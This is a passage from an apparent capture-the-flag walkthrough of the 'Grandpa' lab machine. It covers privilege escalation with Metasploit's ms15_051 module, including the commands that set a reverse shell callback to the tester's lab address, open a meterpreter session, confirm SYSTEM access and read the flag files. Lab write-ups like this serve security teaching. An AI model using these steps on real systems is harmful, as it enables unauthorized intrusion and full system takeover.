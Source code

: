 So we have several exploits to choose from. We've used ms10_015_kitrap0d previously on the Devel machine, so let's choose something else like ms15_051.

Note: If you are feeling adventurous you can also come back and use ms14_070 as it should work as well.

    search ms15_051

    use 0
   
    show options

![](/images/grandpa/15. search.png)

Straightforward enough. Set the session to 1 and make sure your Target is set to Windows x86 (should be the default).

    set session 1
 
    run
    
If you see Metasploit start the reverse TCP handler on an interface other than tun0 (should be 10.10.x.x), then hit Ctrl+c immediately to cancel.

![](/images/grandpa/16. run.png)

For this one, Metasploit set us up on the wrong interface, so we need to cancel and then set our lhost and lport manually:

    set lhost 10.10.14.24

    set lport 17012

I have tried setting lhost and lport before running the exploit and even searching for the option to appear prior to running it, but the only way I see these options is to run it once and hit Ctrl+c.

With lhost and lport set, we should be good to go:

    run

![](/images/grandpa/17. run.png)

We receive a reverse connection and a new meterpreter shell, let's confirm our user and obtain a shell:

    getuid

    shell
    
![](/images/grandpa/18. getuid.png)

Success! We system level privileges. Let's go get our flags:

    type "C:\Documents and Settings\Administrator\Desktop\root.txt"

    type "C:\Documents and Settings\Harry\Desktop\user.txt"

![](/images/grandpa/19. flags.png)

And there are our flags:
